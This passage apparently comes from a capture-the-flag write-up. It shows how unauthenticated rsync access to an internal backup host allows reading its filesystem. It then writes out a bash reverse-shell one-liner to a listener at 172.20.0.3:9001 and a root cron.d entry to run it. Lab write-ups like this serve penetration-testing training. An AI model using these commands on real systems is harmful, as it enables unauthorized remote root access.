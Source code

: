 ```bash
-rw-r--r--          2,935 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Result.php
-rw-r--r--          1,261 2018/05/04 19:55:08 backup/8924d0549008565c554f8128cd11fda4/lib/Server.php
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup/assets
-rw-r--r--         78,601 2018/05/04 19:55:07 backup/assets/jquery.js
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup/f187a0ec71ce99642e4f0afbd441a68b

sent 29 bytes  received 564 bytes  1,186.00 bytes/sec
total size is 94,256  speedup is 158.95
```

rsync gives me full read and write access to backup (172.20.0.2) . I can read the file system:

```bash
root@www:/tmp# rsync rsync://172.20.0.2:873/src
rsync rsync://backup:873/src
drwxr-xr-x          4,096 2018/07/15 17:42:39 .
-rwxr-xr-x              0 2018/05/04 21:01:30 .dockerenv
-rwxr-xr-x            100 2018/05/04 19:55:07 docker-entrypoint.sh
drwxr-xr-x          4,096 2018/07/15 17:42:41 backup
drwxr-xr-x          4,096 2018/07/15 17:42:39 bin
drwxr-xr-x          4,096 2018/07/15 17:42:38 boot
drwxr-xr-x          4,096 2018/07/15 17:42:39 data
drwxr-xr-x          3,720 2020/08/19 05:57:02 dev
drwxr-xr-x          4,096 2018/07/15 17:42:39 etc
drwxr-xr-x          4,096 2018/07/15 17:42:38 home
drwxr-xr-x          4,096 2018/07/15 17:42:39 lib
drwxr-xr-x          4,096 2018/07/15 17:42:38 lib64
drwxr-xr-x          4,096 2018/07/15 17:42:38 media
drwxr-xr-x          4,096 2018/07/15 17:42:38 mnt
drwxr-xr-x          4,096 2018/07/15 17:42:38 opt
dr-xr-xr-x              0 2020/08/19 05:57:02 proc
drwxr-xr-x          4,096 2018/07/15 17:42:39 rdb
drwx------          4,096 2018/07/15 17:42:38 root
drwxr-xr-x          4,096 2020/08/19 05:57:03 run
drwxr-xr-x          4,096 2018/07/15 17:42:38 sbin
drwxr-xr-x          4,096 2018/07/15 17:42:38 srv
dr-xr-xr-x              0 2020/08/19 11:02:11 sys
drwxrwxrwt          4,096 2020/08/19 13:19:01 tmp
drwxr-xr-x          4,096 2018/07/15 17:42:39 usr
drwxr-xr-x          4,096 2018/07/15 17:42:39 var
```

Since we have a write permission, I decideded to create a cron job, so It will run automatically and I will get shell. For that We need 2 files one is reverse shell file and another one to put in `cron.d`

```bash
root@www:/tmp# echo 'bash -c "bash -i >& /dev/tcp/172.20.0.3/9001 0>&1"' > priv.sh
root@www:/tmp# cat priv.sh
cat priv.sh
bash -c "bash -i >& /dev/tcp/172.20.0.3/9001 0>&1"
root@www:/tmp# echo '* * * * * root sh /tmp/priv.sh' > priv 
echo '* * * * * root sh /tmp/priv.sh' > priv
root@www:/tmp# cat priv
cat priv
* * * * * root sh /tmp/priv.sh
```
